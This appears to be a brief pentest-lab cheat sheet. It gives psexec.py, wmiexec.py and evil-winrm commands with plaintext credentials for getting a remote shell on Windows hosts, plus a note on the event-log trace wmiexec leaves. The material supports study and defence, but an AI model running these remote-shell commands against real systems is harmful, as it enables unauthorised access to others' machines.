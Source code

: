 ## psexec
```powershell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 
```

## wmiexec
```powershell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: A new process has been created, they will see a new process created to spawn cmd.exe and issue a command. This isn't always malicious activity since many organizations utilize WMI to administer computers, but it can be a tip-off in an investigation

## evil-winrm
```powershell
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```